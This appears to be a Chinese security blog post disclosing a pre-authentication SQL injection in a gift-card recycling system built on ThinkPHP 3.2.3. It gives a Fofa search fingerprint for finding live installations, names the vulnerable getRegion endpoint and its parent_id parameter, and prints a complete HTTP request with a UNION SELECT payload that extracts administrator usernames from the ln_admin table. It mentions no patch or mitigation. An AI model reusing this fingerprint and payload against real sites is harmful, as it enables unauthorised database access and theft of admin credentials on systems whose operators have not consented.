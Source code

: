 #  某礼品卡电子券收卡系统存在前台SQL注入漏洞   
原创 星悦  星悦安全   2025-05-21 11:00  
  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
**一个先进、稳定、功能完善的回收交易平台， 通过技术对接，全面实现线上回收各类虚拟卡。销卡速度快，到账稳定。 解决浪费：直接面对用户回收 出户即可提交卡号卡密完成回收交易 解决每年上十亿礼品卡闲置的问题。 资金回流：让企业闲置、员工FULI、 亲友相赠等方式获取的礼品卡快速 变现，以达到资金回流化实现利益。 交易多样：提供线上回收、线下交易API接口等多种交易方式**  
  
**Fofa指纹："/Application/Home/Static/css/style2.css"**  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhsEMX5dkwKLYC2vCauFBibMXR1gzu3FvH02QVx996Xud5ofchNX8Txiaw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
![图片](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5eNkiadvfRdqw1j0ySq6E9rhAZcGX7Cbu7HsFmh4Ihiadg3RGjF79QztdvpNrhPaNAKfeiauIRAGxEXQ/640?wx_fmt=webp&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
**框架:ThinkPHP 3.2.3 Debug:True**  
## 0x01 漏洞研究&复现  
  
位于 **/Application/Home/Controller/ApiController.class.php 的getRegion 方法，通过I函数GET传入 parent_id 参数，且直接被带入SQL查询字句中，导致漏洞产生.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c6RXq60udMWMibWCk9icgeIpDQWU8lh5LZUtdaZuZxAoJIQVYUu4vwFpOGt8SpzQZ0LRkrFb2vicohA/640?wx_fmt=png&from=appmsg "")  
  
Payload:  
  
```
GET  /Home/Api/getRegion/parent_id/1)%20union%20select%201,2,user_name,4,5,6,7,8,9%20from%20ln_admin%20where%20(1=1 HTTP/1.1
Host: 127.0.0.1:8066
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://127.0.0.1:8066/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: think_language=zh-CN; PHPSESSID=p4d3rprbojktlbnfhrd9gv1gk4
Connection: keep-alive

```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5c6RXq60udMWMibWCk9icgeIplRrQXVAIMyGQKwpvgoUaKibWFmU6BlHWoOyiagWRicejNm0RWABsw26FA/640?wx_fmt=png&from=appmsg "")  
## 0x02 源码下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**礼品卡源码关注公众号发送 250308 获取!**  
  
****  
  
****  
**免责声明:文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
